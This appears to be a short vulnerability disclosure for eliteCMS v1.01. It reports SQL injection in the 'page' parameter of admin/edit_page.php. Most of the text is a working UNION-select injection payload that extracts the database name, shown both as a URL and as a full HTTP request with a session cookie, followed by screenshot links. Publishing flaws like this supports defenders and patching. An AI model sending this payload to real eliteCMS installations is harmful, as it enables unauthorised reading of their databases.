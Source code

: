 # Elitecms v1.01 by elitecms has SQL injection

vendors: https://elitecms.net/download.php

Vulnerability File: eliteCMS1.01/admin/edit_page.php?page=

Vulnerability location: ip/eliteCMS1.01/admin/edit_page.php?page=, page

dbname: elitecms101

[+] Payload: /eliteCMS1.01/admin/edit_page.php?page=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> page

```sql
GET /eliteCMS1.01/admin/edit_page.php?page=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167533963-4b3bc32f-e40b-469d-8c3c-c54d43a55c83.png)

![image](https://user-images.githubusercontent.com/54017627/167533923-71deea82-05a1-4e43-8e7b-977756583420.png)
